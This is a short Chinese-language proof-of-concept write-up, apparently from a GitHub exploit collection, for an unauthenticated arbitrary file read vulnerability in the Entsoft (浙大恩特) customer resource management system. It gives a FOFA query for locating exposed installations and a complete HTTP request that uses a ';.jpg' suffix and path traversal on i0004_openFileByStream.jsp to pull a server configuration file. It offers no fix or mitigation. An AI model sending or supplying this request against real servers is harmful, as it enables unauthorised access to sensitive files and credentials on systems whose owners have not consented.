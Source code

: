 # 浙大恩特客户资源管理系统 i0004_openFileByStream.jsp 任意文件读取漏洞

## 1.漏洞描述

浙大恩特客户资源管理Q系统是一款外贸管理软件，它提供了多种功能，包括客户档案管理、邮件管理、OA外贸办公管理系统、分管权限管理、联系跟进及提醒、业务检查管理、统计分析管理等。

浙大恩特客户资源管理系统存在任意文件读取漏洞。未授权的攻击者可以通过该漏洞读取服务器任意文件，从而获取大量敏感信息。

## 2.搜索语法

```plain
fofa：title="欢迎使用浙大恩特客户资源管理系统"
```

## 3.漏洞复现

```plain
GET /entsoft/module/i0004_openFileByStream.jsp;.jpg?filepath=/../EnterCRM/bin/xy.properties&filename=conan HTTP/1.1
Host: 127.0.0.1
Accept-Encoding:gzip,deflate,br
Accept:*/*
Accept-Language:en-US;q=0.9,en;q=0.8
User-Agent:Mozilla/5.0(WindowsNT 10.0: Win64:x64)AppleWebKit/537.36(KHTML, likeGecko) Chrome/116.0.5845.111 Safari/537.36
Connection:close
Cache-Control:max-age=0
```

![image](https://github.com/hardog123/poc-exp/assets/170905460/3547e51c-e6e3-4911-866c-40109c2ad039)
